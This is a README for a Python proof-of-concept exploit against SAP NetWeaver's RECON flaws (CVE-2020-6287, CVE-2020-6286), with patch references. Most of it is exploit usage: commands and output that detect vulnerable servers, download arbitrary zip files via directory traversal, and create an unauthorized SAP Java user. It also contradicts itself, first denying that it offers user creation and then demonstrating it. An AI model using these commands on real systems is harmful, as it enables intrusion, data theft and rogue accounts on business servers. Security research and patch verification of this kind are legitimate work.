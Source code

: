 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as a PoC script exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This PoC doesn't provide RCE/user creation functionality.<br>This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: 

CVE-2020-6287: [Pablo Artuso](https://twitter.com/lmkalg)<br>
CVE-2020-6286: [Yvan 'iggy' G.](https://twitter.com/_1ggy) 

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server
3. `-u` - create user SAP JAVA user with  `Authenticated User` role 


Ex.: Download zip file

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```


Ex.: Create SAP JAVA user

```
~python RECON.py -H 172.16.30.8 -u
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user. sapRpoc5484:Secure!PwD9379
Ok! User were created
```


## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-s] [-c] [-f ZIPFILE] [-u]
                [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287,  (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding:
- Pablo Artuso. https://twitter.com/lmkalg
- Yvan 'iggy' G https://twitter.com/_1ggy
Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  -u, --user            Create JAVA user. CVE-2020-6287
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```
